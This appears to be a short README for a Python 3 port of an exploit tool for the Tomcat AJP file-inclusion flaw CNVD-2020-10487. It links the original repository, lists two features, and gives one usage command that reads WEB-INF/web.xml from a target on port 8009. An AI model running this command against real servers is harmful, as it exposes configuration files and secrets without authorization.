

## Reference

https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi


## Feat
1. 支持Python3
2. 支持保存文件到本地

## Usage
```bash
python .\CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.187.128 -p 8009 -f "WEB-INF/web.xml"
```
